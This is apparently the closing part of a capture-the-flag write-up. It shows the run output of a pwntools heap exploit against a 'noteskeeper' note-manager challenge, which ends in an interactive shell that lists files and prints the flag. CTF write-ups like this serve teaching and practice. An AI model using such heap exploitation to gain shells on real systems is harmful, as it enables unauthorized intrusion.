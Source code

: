```
b' Note added\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Note index:'
noteskeeper_exploit.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(index))
b' Note removed\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Note index:'
b' Note removed\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Size:'
b' Note content:'
b' Note added\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Note index:'
b' Note removed\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Size:'
b' Note content:'
b' Note added\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Size:'
b' Note content:'
b' Note added\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Note index:'
b' Note removed\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Size:'
b' Note content:'
b' Note added\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Note index:'
b' Note removed\n1- Add note\n2- Remove note\n3- Edit note\n4- View note\nEnter an option:'
b' Size:'
noteskeeper_exploit.py:66: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(0x28))
[*] Switching to interactive mode
 $ ls
chall  flag.txt    libc-2.29.so  noteskeeper_exploit.py
core   ld-2.29.so  libc.so.6     noteskeeper_payload.py
$ cat flag.txt
flag{I_f0rgot_To_s4v3_the_r34l_fl4g}
$
```
Thanks for reading!
